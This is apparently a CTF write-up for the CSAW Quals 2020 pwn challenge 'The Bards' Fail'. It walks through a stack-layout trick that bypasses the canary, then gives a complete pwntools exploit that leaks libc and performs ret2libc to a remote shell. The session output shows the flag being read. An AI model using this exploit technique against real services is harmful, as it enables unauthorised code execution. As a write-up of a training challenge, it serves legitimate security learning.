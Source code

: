 ```yaml
---
title: The Bards' Fail
date: 2020-09-15 20:05:10
author: Pwn-Solo
author_url: https://twitter.com/Pwn_Solo
categories:
  - Pwn
tags:
  - CSAW Quals
  - Stack Overflow
---
```


**tl;dr**
+ Carefully arranging structs on stack so as to overwrite saved rip , without corrupting the stack canary.
+ Leak libc with puts and execute a ret2libc to get shell 

<!--more-->
**Challenge Points:** 150
**Solves:** 97
## Challenge description

***Pwn your way to glory! You do not need fluency in olde English to solve it, it is just for fun***

we're given the challenge binary along with the libc 

first off , lets take a look at the mitigations enabled 
```console
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

## Functionality

This is what the challenge binary looked like 
```console
*** Welcome to the Bards' Fail! ***

Ten bards meet in a tavern.
They form a band.
You wonder if those weapons are real, or just props...

Bard #1, choose thy alignment (g = good, e = evil):
g	
Choose thy weapon:
1) +5 Holy avenger longsword
2) +4 Crossbow of deadly accuracy
1
Enter thy name:
testname

Bard #2, choose thy alignment (g = good, e = evil):
```
It first asks us to initialize 10 Bards with the option of choosing their alignment (good or evil).
We control the weapon and name of each bard , which are then stored on the stack .

each Bard is stored in a sort of structure on the stack ... looking into it further , we see that the good and evil structs are not quite the same 

```asm
'good' allocation -> 48 bytes
0240| 0x7ffdeef25150 --> 0xf0014006c 
0248| 0x7ffdeef25158 ("AAAAAAAA")  <-input 
0256| 0x7ffdeef25160 --> 0x0 
0264| 0x7ffdeef25168 --> 0x0 
0272| 0x7ffdeef25170 --> 0x0 
0280| 0x7ffdeef25178 --> 0x4032000000000000 ('')


'evil' allocation -> 56 bytes
0288| 0x7ffdeef25180 --> 0x63 ('c')
0296| 0x7ffdeef25188 --> 0x4032000000000000 ('')
0304| 0x7ffdeef25190 --> 0x424200140000000f 
0312| 0x7ffdeef25198 --> 0x424242424242 ('BBBBBB') <- input
0320| 0x7ffdeef251a0 --> 0x0 
0328| 0x7ffdeef251a8 --> 0x0 
0336| 0x7ffdeef251b0 --> 0x0 

```

## Exploitation
since evil allocates more bytes I used them to overflow the stack but was greeted with this message ...
```bash
AAAAAAAAAAAAAAAAAAAA is arrested.
*** stack smashing detected ***:
```
we can see our canary is at the offset 488 from the start of our input and since we give 56*10 bytes we end up corrupting it. The solution is to get our canary to overlap with our input string (instead of the constant data fields of the struct) so that we can choose to not overwrite it . Placing a "good" block at the start ends up doing that for us 

```asm
second last 'evil' block 
0680| 0x7ffcb4bcd168 --> 0x63 ('c')
0688| 0x7ffcb4bcd170 --> 0x4032000000000000 ('')
0696| 0x7ffcb4bcd178 --> 0x414100140000000f 
0704| 0x7ffcb4bcd180 ('A' <repeats 22 times>)
0712| 0x7ffcb4bcd188 ('A' <repeats 14 times>)
0720| 0x7ffcb4bcd190 --> 0x414141414141 ('AAAAAA')
0728| 0x7ffcb4bcd198 --> 0x69ac49fe9683bf00      <- canary
last 'evil' block 
0736| 0x7ffcb4bcd1a0 --> 0x7ffcb4bcd163 --> 0x630000000000 ('')
0744| 0x7ffcb4bcd1a8 --> 0x4032000000000000 ('') <- corrupted saved rip  
0752| 0x7ffcb4bcd1b0 --> 0x414100140000000f 
0760| 0x7ffcb4bcd1b8 --> 0x141414141 

```
okay.. so the canary's safe but the data from the last evil struct overwrites the saved rip , lucky for us the 'good' allocation has its input starting from ```param_1 + 8``` which is exactly where the saved rip will be . All we do is make a 'good' allocation at the end instead and give in our payload to take control of rip.

```bash
Stopped reason: SIGSEGV
0x0000414141414141 in ?? ()
```
perfect ! now all we need is a libc leak and a simple ret2libc will do the rest  

## Exploit Code

```py
from pwn import *
import sys
import os

remote_ip,port = 'pwn.chal.csaw.io','5019'
binary = 'bard'
brkpts = '''
'''
if sys.argv[1] == 'remote' :
    io = remote(remote_ip,port)

else:
    io = process(binary,env={'LD_PRELOAD':'./libc-2.27.so'})
    
re = lambda a: io.recv(a)
ru = lambda a: io.recvuntil(a)
rl = lambda  : io.recvline()
s  = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
sla= lambda a,b: io.sendlineafter(a,b)
sa = lambda a,b: io.sendafter(a,b)

def good(weapon,name):
  sla(":\n",'g')
	sla("cy\n",str(weapon))
	sa("name:\n",name)

def evil(weapon,name):
	sla(":\n",'e')
	sla("ent\n",str(weapon))
	sa("name:\n",name)

def sheriff():
	sla("do?\n",'e')

def zombie(inp):
	sla("do?\n",inp)

def trigger(payload):
  for i in range(1):
		good(1,b"A"*8)
  for i in range(8):
		evil(1,b"B"*8)
  
  good(1,payload)
  gdb.attach(io,brkpts)
	
  for i in range(1):
		zombie('r')
  
  for i in range(8):
		sheriff()
	
  for i in range(1):
		zombie('r')	

#gadgets
puts = 0x4006d0
pop_rdi = 0x401143
main = 0x40107b
ret = 0x4006ae

if __name__== "__main__":	
	#good -> 48 bytes
	#bad  -> 56 bytes
	payload = p64(pop_rdi)
	payload += p64(0x602020)
	payload += p64(puts)
	payload += p64(main)
	trigger(payload)

	ru("away.")
	rl()
	leak = re(6)
	leak = u64(leak+b'\x00\x00')-0x80a30
	system = leak + 0x4f4e0
	binsh = leak +0x1b40fa
	
	log.info("base {} ".format(hex(leak)))
	log.info("sys {}".format(hex(system)))
	log.info("/bin/sh {}".format(hex(binsh)))

	payload = p64(ret)
	payload += p64(pop_rdi)
	payload += p64(binsh)
	payload += p64(system)
	trigger(payload)

	io.interactive()
```
The idea to get leaks was to call ```puts@plt``` using a GOT address as the argument ,Then call main again;to then which we give the payload to finally execute a ret2libc


```console
pwn-solo@m4chin3:~/ctf/csaw/bard$ python3 exploit.py remote
[+] Opening connection to pwn.chal.csaw.io on port 5019: Done
[*] base 0x7f9f7fe3a000 
[*] sys 0x7f9f7fe894e0
[*] /bin/sh 0x7f9f7ffee0fa
[*] Switching to interactive mode
Options:
(b)ribe
(f)latter
(r)un
$ ls
bard
flag.txt
$ cat flag.txt
flag{why_4r3_th3y_4ll_such_c0w4rds??}
```
pretty cool :)
